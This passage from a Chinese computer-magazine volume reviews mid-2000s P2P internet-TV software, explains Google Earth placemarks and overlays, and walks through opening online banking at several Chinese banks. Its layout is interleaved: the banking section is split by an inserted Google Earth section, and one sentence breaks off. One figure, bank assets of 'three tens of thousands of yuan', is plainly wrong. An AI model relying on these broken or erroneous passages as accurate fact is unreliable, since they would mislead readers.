(1) 沸点网络电视

运行软件并选择频道后，即会马上自动连接服务器，并且自动播放。从速度上看，在晚上连接的速度比较快，几乎没有延迟现象，连接成功率几乎为100%，连接十秒钟左右即可播放。但在白天表现不太理想，需要15秒左右才能连接上，而且会出现断断续续的现象。

(2) PPLive

当用户选择了频道后，PPLive网络电视会自动进行连接和播放，连接时，需要一定的缓冲时间。软件的连接速度比较平均，白天和晚上的速度差别不大，相对而言，白天速度更快些。以CCTV5教育网为例，早上9:00左右的速度可以达到70KB/S，而且整个连接过程均有下载缓冲和下载速度提示。画面质量表现比较流畅，不过和电视节目的实时性有一定差距，通常是一场球已经结束了，画面里还在播放补时的镜头。如果部分电视节目用户一次无法打开，一般多点击几次即可。PPLive的优势是它的用户群体中有大量的教育网和电信ADSL用户，这两类用户目前使用情况比较好。因为PPLive节目内容丰富，它的观看人数也比较多，这样就有足够多的“点”，保证了网络电视的流畅播放。如图3所示。

(3) PPStream

PPStream非常直观地显示出了频道名称、比特率和观看的观众数量，用户可以在选择观看的频道之前，先了解频道比特率和观看的观众数量，这样可以选择比特率较高的频道，同时也可以得到比较清晰的画面质量。选择了频道后，软件会自动连接并播放。在连接速度方面，PPStream在晚上的表现比较出色，连接速度快，播放流畅；但在白天有时会出现连接不上的情况。PPStream的另一个优点是它提供了丰富的频道信息，用户可以根据自己的兴趣选择观看。

(4) QQ直播

当用户点击某一个频道后，就可以进入该频道电视节目的小“包间”，每个小“包间”内还有当天播放节目的所有列表。

(5) TVkOO

软件的电视节目连接速度同样十分出色，在节目播放的过程中很少出现缓冲，电影的连接速度要比电视频道的连接速度稍稍慢一些。

(6) TVAnts

这款软件内置了大量电视频道及精彩的电视节目，但连接速度大都参差不齐。另外也正是由于软件内置的电视节目较多，所以软件中打不开的“死链”也显得特别多。从上面的测试分析来看，网络电视的连接速度和实时性非常重要。在连接速度方面，沸点网络电视在晚上时段表现十分突出，可以在很短的时间里进行播放；PPLive表现比较全面，大部分的热门节目都能播放，而且连接时间越长，速度和画面越流畅；PPStream也显示了自己独特的优势。在播放过程中，这些软件提供的码率和质量参数对用户具有很高的参考价值。在实时性方面，沸点网络电视几乎可以达到同步效果，其他软件稍逊一些。


#### 3. 频道内容对比

在“内容为王”的时代，如果软件连接质量不相上下，那么网络电视平台上的内容就成为吸引用户的一个关键。现在，每个网络电视软件其频道数不少于20种，涵盖了许多内容。下面，我们从娱乐综艺频道、体育频道、电影频道、电视剧频道、港台及海外频道等方面进行对比分析。

(1) 娱乐综艺频道

2006年火热的“超级女声”吸引了很高的关注度，QQ直播与PPLive对这次比赛关注度较高，这可能与软件本身的定位有关。它们专为“超女”设置了频道组，播放“超女”赛事与周边消息。MySee的“超女”内容也很丰富，并对“超女”专辑进行了汇总。沸点网络等软件则没有提供专门的频道，也不支持用户自行添加频道。不过可以通过“湖南卫视”等频道直接进行收看。

(2) 体育频道

现在，几乎所有的网络电视软件都将体育频道作为重头戏，而且各软件的体育频道也是各有特色，有直播的频道，有录播的频道，也有电视台频道。在体育频道这环节中，PPLive和沸点网络电视的表现比较出色。PPLive提供了专门的“体育”分类，用户还可以根据自己的喜好选择“小罗”、“奥尼尔”、近期欧洲赛事和其他体育节目。沸点网络电视提供的几个频道观看的流畅稳定性很好，尤其在晚上连接人数比较多时，但用户的选择性相对较少；PPStream虽然也提供了专门的“体育世界”，但频道选择并不丰富，甚至连CCTV5也没有；MySee也提供了“体育赛事”频道，但专业的体育比赛并不多，而且连接后对系统的速度有很大影响。

(3) 电视剧和电影频道

这也是各大网络电视软件的重头戏。各软件纷纷在电视剧频道和电影频道上大做文章，从浪漫多情的韩国电视连续剧到精彩火爆的武侠连续剧，几乎都能找到。PPLive的电影频道和电视剧频道表现十分抢眼，每个分类都列出了当前热门的影视片。软件所收录的电视节目大多以个人频道为主，国内的知名频道，如CCTV、凤凰卫视和湖南卫视等也有不少收录，不过国外的节目比较少。另外，软件还推出了“科教专题”和“红楼梦专题”栏目。沸点网络电视，该软件给人的感觉是重在推荐经典节目，在“经典电影”和“电视剧场”栏目中，收录了当前比较流行的影视剧。PPStream内置的频道及电视节目相对比较少，所以也就没有分类，从软件收录的频道及电视节目看，精品的确不少，像CCTV各频道、凤凰中文、好莱坞电影台、东森电影台、法国时尚台、湖南卫视和重庆经济电台等均有收录。QQ直播开通了大量的常规卫视频道，另外像NBA直播、娱乐大赛等特色频道也一一俱全。

(4) 电视台

电视台一般分为国内和海外电视台。目前，大部分软件在国内电视台接收方面表现不错，PPLive、PPStream和沸点网络电视都能收到许多国内电视台。以沸点为例，软件内置了16个直播频道，CCTV、凤凰卫视、凤凰资讯、湖南卫视等都是一些经典栏目。但是，这些软件提供的港台和国外电视台比较少，PPLive则干脆没有。相对而言，PPStream的港台频道选择相对较多，大部分观众熟悉的港台电视台都被收录。总的来看，PPLive的节目内容最丰富齐全，除了国外和港台电视台，其他类型的节目都能比较轻松找到，而且还推出了很多专题节目。其次是PPStream、MySee，虽然两者在频道数量上不及PPLive，但内容各有侧重。

#### 4. 资源占用和操作方便性对比

资源占用对系统的影响很大，严重的时候可能会影响到其他软件的工作。测试每款软件的资源占用时，我们采用了同样的标准。总的来看，在 CPU 和内存占用率方面，沸点网络电视这款工具的系统资源占用率最少，PPStream 占用的资源较多，PPLive 占用的资源适中，QQ 直播和其他软件占用的资源一般，MySee 等通过网页播放的软件占用的资源很大。需要说明的是，由于网络电视软件将数据存在内存中，因此内存占用情况比较严重，一些低配置用户使用起来还会存在一定的障碍。

在操作方便性上，打开频道后点击相关内容即可。相对而言，具有导航和提示的栏目操作更加方便，在这方面做得比较好的有沸点网络、PPLive 和 PPStream，将鼠标放置在相关节目上时，都会出现相关提示。关闭播放窗口后，可以自动缩小到系统托盘上。以 PPLive 为例，在播放窗口中单击鼠标右键，选择右键菜单命令，即可非常方便地对音视频等属性进行调整。双击视频播放窗口，就可以实现全屏显示，再次双击时则会恢复窗口模式。选择右键菜单上的“系统设置”命令，则可自定义网络连接参数，控制上传或下载数据时带宽。在这方面，这些软件都比较出色。

#### 5. 软件更新与后期维护对比

软件更新和后期维护是一个长期考查指标，这也是对网络电视软件制作公司的实力评估。在播放软件同质化比较严重的情况下，后期维护与更新就变得极其重要了。在本年度，变化比较突出的是沸点网络电视，在德国世界杯之前，该软件播放速度和播放界面一直不太引人注目；2006 年下半年该软件陆续推出了一些新的技术，在外观和速度上发生了很大变化。至于其他一些软件，大部分在后期更新与维护上变化不大，基本保持了原来的风格。

总的来看，对于频道要求比较高，喜欢观看多个电视节目的用户而言，PPLive 无疑是最佳选择；由于资源占用率较低，再加之连接速度尚可，对于喜欢简单以及爱好体育赛事的用户，则可以选择沸点网络电视软件。而对于爱好热门综艺娱乐或者爱好海外电视台的用户来说，QQLive 直播或 PPStream 也是不错的选择。当然，在选择这些软件时，也要考虑他们的资源占用、操作方便性和更新维护的方便性等因素，并在使用的过程中根据自己的爱好合理搭配，这样就能流畅地收看更多精彩节目。

### 三、网络电视发展问题及前景分析

网络电视具有高度的整合性，是报纸、广播、电视、有线电视等传统媒体的进一步发展。它将文字、图片、声音、动画及图像等多种信息形式融为一体，多媒体的表现力使其大大超过单一媒体形式。可见，网络电视改变了传统的新闻收视习惯，用户查看时可以自由决定播放顺序，不受电视台限制，而且还有超强的交互性。但是，网络电视发展也存在一些问题：

#### 1. 政策问题

目前，适用于网络电视的法规仍不完备。但是随着网络电视尤其是网络电视软件规模的壮大，相关管理部门肯定会有更加细致的规定。因此，网络电视到底归哪个部门管理，将来是否会需要许可证，这些应该是首先需要跨越的门槛。

#### 2. 网络电视的内容问题

目前，网络电视的内容主要来源有：中央和地方台，影视公司和个人制作等。在国内，现有电视节目资源基本上是大众节目，不能提供足够专业化的节目，这就造成了专业节目需求的巨大缺口。目前，只有电视台和相应的机构有电视节目制作和播映权，随意播放未经许可的内容会引来相关问题。因此，网络电视在技术、资金、人力资源等诸多方面应该多拓展和传统电视媒体的合作，同时，网络电视还应树立自己的内容资源品牌，制作出更多优秀的节目以满足用户的需要。

#### 3. 用户支付手段问题

要使网络电视能形成一个媒体产业，就离不开网络电视内容供应商 (ICP)、宽带运营商 (ISP) 和应用服务提供商 (ASP)（虚拟电视台）的参与。应用服务提供商提供电视节目的管理，包括标引、加密、上载、更新等，以及用户身份认证、费用的结算、非视音频信息的发布等服务。传统的电视台集上述三者的职能于一身，而在网络电视的系统结构中，三者通常是分开经营的，这就出现了如何解决支付的问题。

#### 4. 索引和共享的问题

目前，网络电视中的信息就像图书馆里没有进入编目体系的文献，用户在信息的检索上还不是很方便，通常需要在多个网络电视软件中苦苦寻觅自己心爱的影视剧，即使找到后也还存在保存和收藏共享的问题。

#### 5. 版权保护问题

网络电视是收费电视，提供的节目内容是以数字格式文件形式通过宽带网络传输到用户接收终端上的。用户在终端上可以获取这些节目的全部数据，理论上可以把它们保存在用户终端设备，比如 PC 计算机的磁盘上。如何提供充分的满足用户个性化需求的节目资源，又防止节目被随意复制和私自传输，保护内容提供商的利益，是网络电视运营过程中必须面对和解决的问题。

## Google Earth 上帝之眼

### 一、关于 Google Earth

2004 年 10 月 27 日 Google 宣布收购了 Keyhole 公司（Keyhole 是美国的一家卫星图像公司，成立于 2001 年，它提供的 Keyhole 软件允许网络用户浏览通过卫星及飞机拍摄的地理图像——这正是 Google Earth 的前身）并于 2005 年 6 月推出了 Google Earth 系列软件，简称“GE”。Google Earth 采用的 3D 地图定位技术能够把 Google Map 上的最新卫星图片提供给用户。用户可以在 3D 地图上搜索特定区域，放大缩小虚拟图片，常用作行车指南。Google Earth 主要通过访问 Keyhole 的航天和卫星图片扩展数据库来实现上述功能。该数据库最近又进一步更新，它含有美国宇航局提供的大量地形数据，未来还将覆盖更多的地形，涉及田园、荒地等。以上给大家作了个简单介绍，由此可看得出 Google Earth 是有着强大后台支持的高端科技产品。下面介绍它较之常用网上地图的特别之处。

### 二、Google Earth 功能概述

- 从太空漫游到邻居一瞥，搜索学校，公园，餐馆，酒店（如图 1 所示）。这既能让人领略到遨游太空的感觉，也可换个角度，观察我们生活中熟悉的事物，这是很有趣的事情。


- 目的地输入，直接放大，获取驾车指南。这样你就可以驾驶自己的爱车想去哪儿就去哪儿，并且即使在一个陌生的地方也不用焦急，利用汽车配置的 GPS 全球卫星定位系统，通过 Google Earth 便可详细地了解到旅途中即将遇到的各种情况。例如，地形，道路交通等等。

- 提供 3D 地形和建筑物，其浏览视角支持倾斜或旋转。这是有别与其他以往的平面地图搜索的重要特征，也是 Google Earth 的重要功能之一。3D 给人更为逼真的效果，使人有身临其境的绝妙效果。

- 保存和共享搜索和收藏夹。这是网络带来的优势，使 Google Earth 的应用更加的广泛、方便，贴近人们的生活。

- 添加自己的注释。这是极为个性化的一个功能。使用者可以根据自己的需要来添加一些注释或者做一些比较有特点的个人修饰。

Google Earth 除提供以上的服务外，还有以下五种功能，这里简单地加以介绍，主要包括：兼容 GPS（全球定位系统）、电子邮件客户服务、更加丰富的注释、高质量的打印、数据导入等。

以上便是 Google Earth 的简介。这儿再给大家推荐一个比较好的下载站点：www.godeyes.cn，这里有 Google Earth 中文版 - 上帝之眼 1.1 测试版 Beta2 ——上帝之眼部分汉化版。下面我们将介绍如何安装使用 Google Earth。

### 三、Google Earth 的安装和使用

### 1. Google Earth 软件下载安装

Google Earth 的运行条件几乎适合当前所有的电脑。其安装也跟其他常用软件的安装没有什么差别，需要注意的是安装到 Cache file storage 这一步（意思是定义 Google Earth 的缓存文件目录）时，不要求和 Google Earth 安装目录一致，建议定到至少大于 2GB 分区里（如图 2 所示）。


安装完成后单击“启动”图标即可进入程序，建议以 DirectX 模式来运行 Google Earth，因为 DirectX 模式优于 OpenGL 模式。这是经过官方调查过的。大伙可以根据实际情况再试。图 3 所示为 Google Earth 安装等待状态中。

### 2. Google Earth 的地标下载与使用

- 什么是地标

地标就是让你可以快速保存并与别人分享地图数据的一种数据文件，是一种位置坐标文件，也是一种快捷标签，其后缀为 kml。它可以让你迅速地打开目的地图，并达到与别人共享的目的。形象点说，就是一种类似于书签的东西。

- 地标的导出

这个也是极为简单的操作，在 Google Earth 上找到需要跟朋友分享的地图之后，在“File”菜单中选择“Save”或者“Save as”命令将其保存为后缀为 kml 的数据文件，将此文件提供给他人即可。这样大家就可以相互交流成果。

- 地标的导入

直接双击前面生成的 kml 文件，或者通过“File”菜单中的“Open”命令打开该文件，即可快速导航到该数据文件标识的位置。

学会了这些操作，你便可以把网络上提供的世界各地的风景名胜的 kml 数据文件下载了，将其导入 Google Earth，只需坐在电脑前，“足不出户”的环球旅行就这样开始了！

同时，也建议 Google Earth 的爱好者，平时根据自己的爱好，多注意搜集一些类似自然景观、军事基地、历史遗迹、旅游景点、标志建筑等的相关地标，把这些涉及城市交通、文化教育、政治经济等诸多领域的地标，下载到本地硬盘保存起来，以后可以随时导入 Google Earth 直接使用。

### 3. Google Earth 界面设置

Google Earth 的界面设置是比较难的操作，笔者这里借鉴了大量的资料，结合自己使用过程中的体会，来给大家介绍一下。

先打开 Google Earth 主界面（如图 4），导航栏的左边的六个图标是打开相应图层的快捷方式，打勾选择 Lodging


显示可住宿的旅馆、Roads 显示交通道路、Terrain 显示三维地势模拟（对显卡的 3D 性能有一定要求）、Dining 显示各种餐厅、Borders 显示国界与州界、Building 显示三维建筑物模拟（对显卡有较高要求）。要是英文学得不好的朋友，可能需要费点时间记忆这些单词。

下面介绍移动、放大 / 缩小、倾斜与旋转的具体的操作：

- 移动

用鼠标在画面中央拖曳，可移动查看区域；用鼠标在导航栏的方向键盘上点击上下左右四个方向，可移动查看区域；在导航栏的方向键盘上中心的红点的地方按下鼠标左键，拖动鼠标即可移动查看区域；用键盘中的上下左右四个方向键也可以控制查看区域。

- 放大 / 缩小

用鼠标点击导航栏中的“+”和“－”按钮，可控制查看区域的放大和缩小；拨动鼠标滚轮也可以控制查看区域的放大和缩小；用键盘的“+”和“－”键来控制查看区域的放大和缩小。

- 倾斜

用鼠标点击导航栏的“⊥”和“∠”按钮，可控制查看区域的俯瞰的倾斜角度；用键盘的“Shift + ↑”和“Shift + ↓”组合键也可控制查看区域的俯瞰的倾斜角度；用鼠标点击导航栏中的“∧”可重置俯瞰的倾斜角度。

- 旋转

用鼠标点击导航栏的“顺时针旋转”和“逆时针旋转”，可控制查看区域的旋转角度；用键盘中的“Shift + ←”和“Shift + →”组合键可控制查看区域的旋转角度；用鼠标点击导航栏的“N”可重置查看角度，即恢复“上北、下南、左西、右东”的默认角度；按下键盘的“N”键也可重置查看角度。

Detail Area 的意思是屏幕中央显示高精细节区域的大小，对通常 1024 × 768 的显示器而言，设置为 Large 的话便意味着全屏都会是清晰的。如果定义为 Medium，那么中央 512 × 512 区域外的地方将是模糊的。设置得越大对网络带宽的要求越高、需要传输的数据流也越大。当然，要是网络条件还行，我个人推荐设置 Large 为好。如图 5、图 6。


### 4. Google Earth 软件 Overlay 制作

Overlay 在《牛津高阶英汉双解词典(第 6 版)》中查询得出的解释与其他途径查知的中文解释大意都为“覆盖，覆盖图”。用在 Google Earth 里，Overlay 指使用者用一张自己的图片，覆盖在某一特定范围，从而使被覆盖地区更清晰、更明确。实际上，overlay 和地标一样，都属于使用者个人可制作也可交流的共享资源。下面是 Overlay 的制作过程。

先通过快捷按钮或“Add”菜单新建 Overlay，如图 7 和图 8 所示。


此时弹出如图 9 所示的对话框，此对话框与新建地标的对话框大同小异，鉴于此，仅介绍不同之处。图中的“Browse”按钮，是用来选择本地电脑文件的，选择完后，左边的输入框就会自动显示图片路径。如果是网络图片，则无需单击此按钮，只要把图片网址直接复制粘贴过来即可。


“Transparency”表示 Overlay 的透明度，此项调整功能相当重要，主要作用是在制作 Overlay 时，随时调整透明度，可以使 Overlay 边界与 Google Earth 中相应区域的边界重合。所以大家务必在这儿多注意下。

### 5. Google Earth 地标管理

到现在大家应该知道 Google Earth 不仅仅是一款单纯的卫星影像浏览软件，更是一个卫星影像和地图相关资讯沟通、交流的互动平台。该平台互动性的重要表现是：图层功能和地标功能，而这里我们只对地标部分进行介绍。

前面已经简单地说过了，地标可以理解为影像地址的标签，它能够在浏览的时候随时随地插入标签记录，以便对该处进行注解、提醒，并且可以将地标保存输出成单独的文件进行交流，让各用户的发现与成果达到共享的效果。

Google Earth 的地标格式有 Kml 与 Kmz 二种，不同的地方在于 Kml 由标准的、单纯的 xml 语言构成，可以用记事本打开查看和编辑，Kml 文件通常很小，传输比较方便。缺点是只能用于简单的地点标注交流，但不能将图像进行保存。

Kmz 是经过压缩后的 Kml 文件格式，除了单纯的 xml 内容外，它还可以保存包括影像等内容，是 Google Earth 默认的地标存储与交流格式。如果不希望他人解构和修改自己的 xml 内容，那就选择存储为 Kmz 格式吧。而如果是需要将带有影像的地标内容保存成文件，则一定得选择 Kmz 格式。这样看来两种文件格式的优劣显而易见，这也是大家常使用 Kmz 格式的主要因素。

有一点对于我们来说是极为不便的，就是现阶段的 Google Earth 对中文支持还不是太完善（譬如不能选择安装在带有中文的路径目录下，否则会无法启动程序），在地标管理方面也表现得尤为明显：Google Earth 无法完全正常地读取和保存带有中文路径目录的地标文件。所以大家在使用 Google Earth 的时候要稍为注意避免中文路径的出现，也希望 Google Earth 在后续版本中尽快完善。

读取地标后，勾选相应的项目，Google Earth 主界面中即会出现相应的内容。假如地标内容中的题目能够支持中文，而没发现冲突，那么可以正常使用中文进行标注，如图 10 所示。


另外还要注意：导入地标后，在退出 Google Earth 时软件会询问是否要将刚刚打开使用的地标保存到 Google Earth 中，这时记得点击“Yes”，不然地标将不会保存下来，如图 11 所示。

地标下载到电脑后，放在什么地方并不重要（注意：这里尽量不要使用中文文件名作为路径），因为地标导入到Google Earth后，Google Earth会自行将它保存到自己的数据记录中，保存后可以将硬盘上暂存的地标文件删除，因为它已经记录进Google Earth的数据中了。这点比较随心所欲，可以按照自己的喜好来完成。

### 6. 自制 Google Earth 地标

当你熟悉了 Google Earth 的各项常用操作后，可以制作独具个性地标。虽然 Google Earth 界面全是英文，其实自己动手制作地标是比较简单的。具体步骤如下：


单击导航栏中的“新建地标”按钮（如图12所示），或者单击“Add”菜单，选择“Placemark”（即新建地标）命令（如图13所示），弹出如图14所示的对话框。


其中：

| 字段 | 描述 |
|---|---|
| Name | 表示地标名称，新建或修改地标名称后，该名称便显示在Places（地标收藏夹）内。新建地标时，名称默认为“Google Earth–New Placemark”。提示一下，该输入框支持HTML语法，如果在其中添加HTML代码，单击“OK”按钮，观察一下“Places”（即地标收藏夹里的My places）里面刚刚新建的地标名称有什么变化？ |
| Name 文本框右侧的“新建地标”按钮 | 可以让你为当前的Placemark选择一个图标，这里，用一个比较省略的说法，暂且称之为“P图标”。Google Earth提供了不少漂亮的P图标，但我们也可以选择“None”不用它，也可以用“Custom”来定义（把自己电脑里合适的小图片作为P图标）。 |
| Create In 列表框 | 可以让你选择当前地标需要保存在哪个文件夹下。Google Earth的地标收藏夹采用了类似IE收藏夹的管理方式。如果您想随时创建一个新目录，不必退出此对话框，只需点击New Folder按钮即可。 |
| Description 列表 | 在Description列表中可以写一些当前地标或文件夹的注释说明。有兴趣的朋友可以尝试一下，在输入框内填写内容，是否会导致该地标或文件夹在Places（地标收藏夹）中产生某些变化。同样，这个输入框和前面提到的Name一样，支持HTML语法，在这里应用HTML，就无所顾忌了，可以随心所欲，无论是文字颜色还是大小，无论是引用图片还是制作表格，你甚至可以把一个简单的小网页放进去（你可以先在Dreamweaver或Frontpage里把格式调整好，然后再把HTML源代码拷贝过来），效果一定会漂亮！如图15所示。 |


Advanced是高级选项，选中之后，对话框面积就会向下伸长一倍左右。多出来的部分，分为三个选项卡，分别是Style、Location和View，下面分别介绍。

Style选项卡如图16所示，如果Labels选项区保持默认，那么新建地标的效果如图17所示。


如果想调整比例，可以在Labels选项区中进行如图18所示的设置，那么地标就会变为如图19所示的效果。


Icons（图标）的大小和透明度，就留给读者自己去尝试吧，但在调整之前，P图标必须已经选择好，不能是None。

另外，Location选项卡中的内容一般不作太大调整，有兴趣的朋友可以自己尝试。
View选项卡如图20所示。如果你希望把地标往四周稍稍调整一些，可以在右边地图框内用鼠标左右拖动，直到自己满意（方向、高度、经纬度），这时候，可以按一下“Snapshot current view”按钮，那么当前视图就被保存为这个地标的新位置。


## 网上交易——一网情深！！！

文 / TMG ly

引言：随着互联网技术日新月异的发展，网上交易平台也日趋完善。它不受地理环境与上班时间的制约，突破了时间和空间的限制，大大方便了商家与客户之间的联系，让你足不出户便能享受到购物的乐趣。

### 一、主流“网银”大看台

网上银行为网上交易提供了重要支持，它是通过网络将客户电脑的终端连接到银行，实现将银行服务直接送达客户的服务系统。现在国内开通个人网上银行业务的银行主要有招商银行、工商银行和建设银行等。

- 招商银行（http://www.cmbchina.com）
推荐指数：★★★★★
方便指数：★★★★
综合述评：招商银行是国内较早涉猎互联网的一家银行，目前它的主页上提供了一卡通、信用卡、网上支付卡等业务的在线申请，还可以登录一卡通账户进行余额查询、网上转账、账户存入支出等操作。它的网上个人银行针对不同需求群体，分为个人银行专业版、个人银行大众版、信用卡网上银行等多种服务。如图1所示。招商银行的一卡通网上支付支持淘宝、搜狐商城、当当等目前几乎所有的主流电子商务站点的交易，而且申请和使用都是免费的。只是目前招商银行的营业网点数量比较少，尤其是小城市覆盖率还比较低。

- 工商银行（http://www.icbc.com.cn）
推荐指数：★★★★★
方便指数：★★★★★
综合述评：工商银行是中国资产规模最大的商业银行。


### 四、Google Earth图片欣赏

以下是笔者以前在Google Earth上搜集到的图片，拿出来跟大家分享一下。

- 南开大学

南开大学是国内著名学府，是开国总理周恩来的母校。新中国成立后，南开逐渐发展为由南开大学、南开中学等组成的系列学校，在这里又走出了温家宝总理，“百年南开两总理”的名句由此而得。南开大学卫星照片如图21所示。


- 故宫博物院

北京故宫博物院，明清两代帝王居地。在北京，坐在公共汽车上，远远望见时，都不止一次地唏嘘感叹，心生敬意，不是为那帝王之尊气，而是古人非凡的智慧。如图22所示。

## 热点应用 · 网络

《电脑爱好者》合订本·附录分册

之一，中国工商银行拥有自助银行、电话银行、手机银行和网上银行构成的电子银行立体服务体系，是大家申请在线支付业务的理想选择。网上银行个人客户、企业客户、电话银行个人客户均居同业首位。中国工商银行是国内最大的电子商务在线支付服务提供商。2005年推出网上银行专业版银企互联、通用缴费等多项新产品，以及“工行e通”与“U盾”证书等品牌，实现了网上银行本异地账户的统一管理。连续三年赢得美国《环球金融》杂志评选的“中国最佳个人网上银行”和国内网上银行调查、评选的多项大奖。其在线支付业务得到卓越、当当、淘宝、易趣等多家购物站点的支持。如图2所示。


#### 3. 建设银行 (http://www.ccb.com)

推荐指数：★★★★

方便指数：★★★

综合述评：建设银行在国内的营业网点和分支机构大约有2.1万个，资产总规模达到了三万多元。它提供的网上银行在安全性和服务上表现得都很出色，而且它的营业网点覆盖率高，遍布全国各大中小城市，只是目前它的支付功能还略显逊色。不过最近，建设银行将对原有网上银行进行完善，在功能菜单、页面风格、操作方式进行全面的人性化设计，优化申请流程，并将重点优化查询、转账、汇款、缴费和支付等五大个人日常基本金融服务，对外汇买卖、证券业务、公积金业务等理财金融服务进行了重新的业务组合。我们期待着建设银行新版网银为客户呈现一个更好用、更快捷、更安全的网上银行。如图3所示。


#### 4. 交通银行 (http://www.95559.com.cn)

推荐指数：★★★

方便指数：★★★

综合述评：交通银行是中国早期四大银行之一，历史悠久。1986年交通银行重新组建，成为中国第一家全国性的国内股份制商业银行。目前，交通银行的个人网上银行分为三个版本：普通用户版、手机用户版和证书认证版。如图4所示。

以前需要到柜台才能办理的储蓄业务现在都能通过网上银行来完成。目前，交通银行的网上支付功能还在启动中，相信不久，大家也能用交通银行卡的支付功能在线消费了。


### 二、开通“网银”轻松学

有了银行卡，懒人就更想足不出户将所有事情“一网搞定”，特别是诸如缴费、查账、转账等业务，每次去银行都得排好长时间的队，加之现在网上商城开得红红火火，能坐在家里淘宝是一件多么惬意的事情呀！当然这些并不是异想天开，只要我们开通网上银行的支付功能，这一切都可以实现。目前，国内各大银行开通网上支付功能的方式略有不同，比如有的需要下载证书，有的需要签协议等。下面我们以办理招商银行、工商银行和建设银行的网上银行业务为例来介绍如何开通“网上支付”。

#### 1. 招商银行

开通招商银行个人网上银行，首先要办理一张该行的一卡通，考虑到网上购物的方便，在申请一卡通时可以一并申请网上支付卡。然后登录到招商银行的主页，在主页右侧标题栏上单击网上个人银行。

这里有关于招商银行网上个人银行功能和特点的具体介绍，招商银行的网上个人银行分大众版和专业版两种。其中，大众版支持招商银行的一卡通账户或有普通存折的账户，客户可上网查询自己的账户余额、交易明细，办理缴费、转账等等比较基本的业务，不用另行申请，上网就可直接享用；而专业版则需要严格的客户身份认证，并对参与交易的客户发放数字证书，交易时必须验证数字证书。专业版除查询、转账业务外，具备了更强大的功能，如支持网上大额支付和汇款功能，提供了银行利率、外汇汇率等信息的查询。只是在使用专业版前要到当地招商银行营业网点办理身份验证手续。

对于普通用户使用大众版就够了。下面，我们就主要以“大众版”的使用为例来介绍。首先，单击网页右边列表里面的“个人银行大众版”，就进入了大众版页面。如果你是“一卡通”用户则在弹出的网页中单击“一卡通”。

按提示输入你的开户地、卡号、密码和附加码，确认无误后单击登录。如图5所示。


随即进入“一卡通理财”的界面，大家可以看到这张卡的余额、当前利率等信息，另外还有卡折互转、财务分析、修改密码等普通百姓经常用的一些服务。如果卡不慎遗失可以切换到“挂失”页面进行挂失处理。

假如，大众版的业务不能满足你的需求，你也可以申请“个人银行专业版”。这需要你带上一卡通和身份证，到该卡的开户行填写《网上个人银行证书申请表》，然后选择证书类型，如移动证书类型及相关联的卡号、姓名，证件号等，缴纳九十元左右的移动证书成本费就可获得证书及授权码。招商银行最近推出的新一代免驱动移动证书——优KEY，只需像U盘一样插入电脑的USB端口，无需驱动便能直接进入“专业版”界面。如果你是第一次使用须先启用证书：进入专业版登录界面后，选择“使用移动数字证书”，单击“证书启用”，然后在“USB KEY型号”处选择“类型33”，在“USB KEY标识号”处输入“优KEY”背面的10位数字，接着在“授权码”处输入《招商银行网上个人银行证书申请表》“客户留存联”中的16位授权码，最后，设置专业版登录密码，录入个人信息，完成证书启用过程。一小时后，登录专业版，移动数字证书就会下载到“优KEY”上。你就可以体验专业版方便、安全、快捷的强大功能了！如图6所示。


招商银行的网上支付，除了在网上开通以外，大家还可通过柜台或电话开通。

#### 2. 工商银行

与招商银行相似，在开通工商银行的网上银行支付功能之前，需先在相应的银行开设资金账号并获取银行卡。

然后可以选择在网上注册或是去柜台注册。首先，登录工商银行的主页，在页面左侧“用户登录”栏中单击“个人网上银行登录”。如果你第一次登录，网站会弹出一个页面提示你安装相应的驱动程序和插件以保证交易安全。安装完毕确定后就进入了工商银行“个人网上银行用户登录”页面。按要求填写相应的登录号、密码、验证码之后，阅读并同意遵守《中国工商银行电子银行个人客户服务协议》、《中国工商银行电子银行章程》和《中国工商银行个人网上银行交易规则》等文件，确认无误后单击“同意”按钮。如图7所示。


登录后我们可以看到该卡的基本账户信息。单击页面上方“我的账户”可以查看该卡的余额和存入支取记录等信息，单击“个人理财”可以直接进行卡内、卡间、对外三种方式转账。单击“缴费站”、“网上证券”等可以进入这些业务的使用页面。与招商银行的一卡通相比，工商银行的个人网上银行功能更多，更为人性化。特别是页面左侧的“客户服务”链接，可以由我们自己设置登录页面所常需显示的栏目，更加省时、方便。

#### 3. 建设银行

中国建设银行网上银行的申请，与前面几家银行有所不同，它采取的是柜台签约与网上申请相结合的办法开通网上支付。首先，需要登录建行的主页，在左栏中单击“登录网上银行”，进入建行网上银行页面。在页面右侧的服务说明中单击“开通网上银行服务”的链接，即可开始开通网上银行了。如图8所示。


接下来，阅读《客户服务协议》确认无误后，单击“同意”按钮。随后，按要求正确填写《网上银行申请表》，申请成功后，单击“下载证书”的链接，下载根证书和客户证书，下载完成后就可开通网上银行功能。但这时你只是建设银行网上银行的普通用户，只具有

### 三、“网银”功能超爽体验

当你开通“网上银行”后，以前须亲自到柜台才能处理的事，现在只需在家中动动鼠标就能轻松搞定。除此之外，它还可以帮助你理财投资，有的甚至还提供了网上炒股、网上贷款等业务。下面，我们就以招商银行为例，将“网上银行”的一些常用功能给大家做个介绍。

#### 1. 账户查询

如果你是一个善于理财的人，那么你会很关心自己每一笔资金的去向，以及每个账户中的余额情况。开通网上银行后，你只需登录系统，然后在自己的“网上个人银行专业版”页面中单击“我的财务/我的账户”，便可查看自己所有一卡通或信用卡中的资金情况。如图9所示。


如果你还想对交易明细有所了解，可以在顶部菜单栏中单击“基本业务/交易查询”，然后输入你想查询的一卡通卡号和起始日期，单击“查询”按钮，便可以获取你所指定的一卡通上的交易明细。

#### 2. 转账汇款

对在外地上学或工作的朋友来说，转账汇款业务应该是比较常用的业务，现在招商银行的网上个人银行，既可支持招行本地、异地转账，也支持跨行异地转账，给游子们提供了很大的方便。

- (1) 本人招行账户互转

单击顶部菜单栏中的“转账汇款/本人招行账户互转”，在出现的“本人招行账户互转”窗口中正确输入相关信息，核实无误后单击“确定”按钮。如图 10 所示。


随后，银行还会给你一个确认信息，再次进行核实后，单击“确定”。

- (2) 招行同城转账

招行同城转账与本人账户互转的操作相似，只是在“同城转账”窗口中输入的信息有所变化，需要填清楚收款方的姓名和账号。如图 11 所示。


在最后核实无误后单击“确定”。

- (3) 跨行同城转账

招商银行网上银行的跨行转账业务，也给我们提供了很大方便。我们依旧按上述步骤单击“转账汇款/跨行同城转账”，接着在窗口中正确输入收款方的户名、开户行及转入收款方的账号、金额等信息，仔细核对信息无误后，单击确定，转账就完成了。

- (4) 跨行异地汇款

远在他乡的父母或孩子急需用钱而银行卡又不一样时，跨行异地汇款的功能就派上用场了。你可以按上面的步骤在相应的窗口输入收款人的姓名、地址、开户行和收款账号等信息，进行转账操作。如图 12 所示。


